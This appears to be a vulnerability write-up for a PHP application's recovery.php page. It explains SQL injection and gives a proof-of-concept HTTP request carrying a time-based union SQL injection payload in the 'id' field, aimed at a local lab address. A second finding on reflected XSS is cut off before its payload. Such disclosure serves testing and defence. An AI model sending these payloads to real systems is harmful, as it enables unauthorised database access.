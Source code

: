```
Structured Query Language (SQL) is a specialized programming language for sending queries to databases. The SQL programming language is both an ANSI and an ISO standard, though many database products supporting SQL do so with proprietary extensions to the standard language. Applications often use user-supplied data to create SQL statements. If an application fails to properly construct SQL statements it is possible for an attacker to alter the statement structure and execute unplanned and potentially hostile commands. When such commands are executed, they do so under the context of the user specified by the application executing the statement. This capability allows attackers to gain control of all database resources accessible by that user, up to and including the ability to execute commands on the hosting system.

**The following POC shows a demonstration for exploiting a time based SQL Injection**
###### PoC:
```http
POST /recovery.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 39
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://172.17.0.2
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.17.0.2/recovery.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=ee5875f3660d048db3ac7065cee0dbad
Connection: keep-alive

id=2222'+union+select+sleep(5),1,1+--+a
```
###### References:
[https://www.owasp.org/index.php/SQL_Injection](https://www.owasp.org/index.php/SQL_Injection)


-------------


##### 5. [XSS] Reflected cross-site scripting
###### Severity:
Medium
###### Description:
Reflected cross-site scripting (or XSS) arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.
###### PoC:
```
POST /recovery.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 42
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://172.17.0.2
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.17.0.2/recovery.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=d181840f69c38ed49b0c9a1bb2c6a24b
Connection: keep-alive

```